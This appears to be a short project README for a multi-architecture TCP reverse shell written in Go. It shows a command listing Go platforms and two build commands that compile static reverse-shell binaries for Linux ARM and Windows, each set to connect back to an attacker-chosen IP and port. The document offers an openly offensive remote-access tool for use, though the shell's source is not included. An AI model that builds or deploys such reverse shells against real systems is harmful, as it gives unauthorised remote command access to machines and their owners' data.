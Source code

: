 # TCP reverse shell for multiple architectures in Go

A multi-arch reverse shell written in Go.

## Usage

List supported platforms.

~~~ sh
go tool dist list
~~~

Compile static binary.

~~~ sh
./build.sh GOARCH=arm GOOS=linux TARGET=192.168.0.128:9999
./build.sh GOARCH=amd64 GOOS=windows TARGET=10.10.10.42:9999
~~~

